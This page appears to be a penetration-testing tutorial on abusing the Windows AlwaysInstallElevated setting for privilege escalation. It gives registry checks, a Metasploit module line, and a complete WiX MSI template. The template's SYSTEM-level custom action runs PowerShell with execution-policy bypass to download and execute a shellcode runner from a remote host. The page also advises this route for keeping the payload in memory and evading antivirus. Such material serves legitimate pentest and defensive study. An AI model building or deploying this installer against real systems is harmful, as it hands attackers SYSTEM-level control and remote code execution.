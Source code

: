 # Always Install Elevated

`AlwaysInstallElevated` is a Windows registry and Group Policy setting that allows non-privileged users to install Microsoft Installer (MSI) packages with **SYSTEM** permissions. Organizations sometimes enable this setting to reduce Helpdesk workload by allowing users to install software without administrator intervention.

## Checking for Misconfiguration

You can check if this setting is enabled by querying the following registry keys. If both keys return a value of `0x1`, the system is vulnerable:

```powershell
# Query the registry to check for AlwaysInstallElevated misconfiguration
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

## Exploitation

### **Using Metasploit (Likely to be Detected by AV)**
Metasploit has a built-in module to exploit this misconfiguration:

```bash
use exploit/windows/local/always_install_elevated
```

However, this approach is often flagged by antivirus solutions.

### **Crafting a Custom Malicious MSI**
A more stealthy approach is to create a custom MSI package. The following GitHub repository provides a method to build an MSI that executes arbitrary code with SYSTEM privileges:

- [MSI AlwaysInstallElevated Exploit - KINGSABRI](https://github.com/KINGSABRI/MSI-AlwaysInstallElevated/tree/master)

Following the reference above, you can craft an MSI that executes PowerShell and runs a shellcode loader **in memory**, keeping the payload off-disk and reducing detection risk.


```xml
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
    <Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="23e23deeqwddeweqwde" Version="0.0.1" Manufacturer="Test1" Language="1033">
        <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package" />
        <Media Id='1' />
        <Directory Id="TARGETDIR" Name="SourceDir">
            <Directory Id="ProgramFilesFolder">
                <Directory Id="INSTALLLOCATION" Name="Example">
                    <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222" KeyPath="yes"></Component>
                </Directory>
            </Directory>
        </Directory>
        <Feature Id="DefaultFeature" Level="1">
            <ComponentRef Id="ApplicationFiles" />
        </Feature>

        <CustomAction 
            Id="Shell" 
            Execute="deferred"
            Directory="TARGETDIR" 
            Impersonate="no" 
            ExeCommand="C:\Windows\System32\cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command IEX (Invoke-RestMethod 'http://192.168.45.194/Payloads/AES_Shellcode_Runner_Delegate.ps1')"
            Return="check" 
        />

        <InstallExecuteSequence>
            <Custom Action="Shell" After="InstallFiles"></Custom>
        </InstallExecuteSequence>
    </Product>
</Wix>
```
